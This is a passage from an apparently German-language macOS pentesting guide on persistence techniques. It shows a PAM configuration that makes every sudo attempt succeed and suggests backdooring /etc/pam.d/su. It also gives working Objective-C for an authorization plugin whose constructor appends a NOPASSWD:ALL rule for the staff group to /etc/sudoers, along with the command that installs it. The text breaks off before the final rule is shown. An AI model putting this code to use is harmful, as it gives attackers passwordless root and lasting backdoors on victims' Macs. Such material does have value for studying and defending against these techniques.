 ```bash
account    required       pam_permit.so
password   required       pam_deny.so
session    required       pam_permit.so
```
Und daher wird jeder Versuch, **`sudo` zu verwenden**, funktionieren.

{% hint style="danger" %}
Beachten Sie, dass dieses Verzeichnis durch TCC geschützt ist, sodass es sehr wahrscheinlich ist, dass der Benutzer eine Aufforderung zur Zugriffsanfrage erhält.
{% endhint %}

Ein weiteres schönes Beispiel ist su, wo Sie sehen können, dass es auch möglich ist, Parameter an die PAM-Module zu übergeben (und Sie könnten auch diese Datei mit einem Backdoor versehen):
```bash
cat /etc/pam.d/su
# su: auth account session
auth       sufficient     pam_rootok.so
auth       required       pam_opendirectory.so
account    required       pam_group.so no_warn group=admin,wheel ruser root_only fail_safe
account    required       pam_opendirectory.so no_check_shell
password   required       pam_opendirectory.so
session    required       pam_launchd.so
```
### Autorisierungs-Plugins

Writeup: [https://theevilbit.github.io/beyond/beyond\_0028/](https://theevilbit.github.io/beyond/beyond\_0028/)\
Writeup: [https://posts.specterops.io/persistent-credential-theft-with-authorization-plugins-d17b34719d65](https://posts.specterops.io/persistent-credential-theft-with-authorization-plugins-d17b34719d65)

* Nützlich, um die Sandbox zu umgehen: [🟠](https://emojipedia.org/large-orange-circle)
* Aber du musst root sein und zusätzliche Konfigurationen vornehmen
* TCC-Umgehung: ???

#### Standort

* `/Library/Security/SecurityAgentPlugins/`
* Root erforderlich
* Es ist auch notwendig, die Autorisierungsdatenbank zu konfigurieren, um das Plugin zu verwenden

#### Beschreibung & Ausnutzung

Du kannst ein Autorisierungs-Plugin erstellen, das ausgeführt wird, wenn sich ein Benutzer anmeldet, um Persistenz aufrechtzuerhalten. Für weitere Informationen darüber, wie man eines dieser Plugins erstellt, siehe die vorherigen Writeups (und sei vorsichtig, ein schlecht geschriebenes kann dich aussperren und du musst deinen Mac im Wiederherstellungsmodus bereinigen).
```objectivec
// Compile the code and create a real bundle
// gcc -bundle -framework Foundation main.m -o CustomAuth
// mkdir -p CustomAuth.bundle/Contents/MacOS
// mv CustomAuth CustomAuth.bundle/Contents/MacOS/

#import <Foundation/Foundation.h>

__attribute__((constructor)) static void run()
{
NSLog(@"%@", @"[+] Custom Authorization Plugin was loaded");
system("echo \"%staff ALL=(ALL) NOPASSWD:ALL\" >> /etc/sudoers");
}
```
**Verschieben** Sie das Bundle an den Ort, an dem es geladen werden soll:
```bash
cp -r CustomAuth.bundle /Library/Security/SecurityAgentPlugins/
```
Schließlich fügen Sie die **Regel** hinzu, um dieses Plugin zu laden: